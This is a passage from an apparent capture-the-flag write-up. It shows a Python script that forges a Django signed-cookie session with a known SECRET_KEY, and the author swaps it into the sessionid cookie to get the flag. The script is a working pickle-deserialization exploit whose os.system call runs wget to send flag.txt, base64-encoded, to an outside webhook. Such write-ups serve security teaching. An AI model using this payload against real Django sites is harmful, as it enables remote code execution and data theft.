 **`pickler.py`**
```python
import os
from django.core import signing
from django.contrib.sessions.serializers import PickleSerializer
import os

SECRET_KEY = "77m6p#v&(wk_s2+n5na-bqe!m)^zu)9typ#0c&@qd%8o6!"

class Exploit():
    def __reduce__(self):
        return (os.system, ("""wget https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202?o=$(cat flag.txt|base64 -w0)""",))

print(signing.dumps(
    Exploit(),
    key=SECRET_KEY,
    salt='django.contrib.sessions.backends.signed_cookies',
    serializer=PickleSerializer
    )
)
```

Now all I had to do was change my `sessionid` cookie to the payload and receive the flag being sent to my webhook!

![](images/poller_weebhook.png)

![](images/poller_flag.png)

---

# Devops

---

## Poisoned
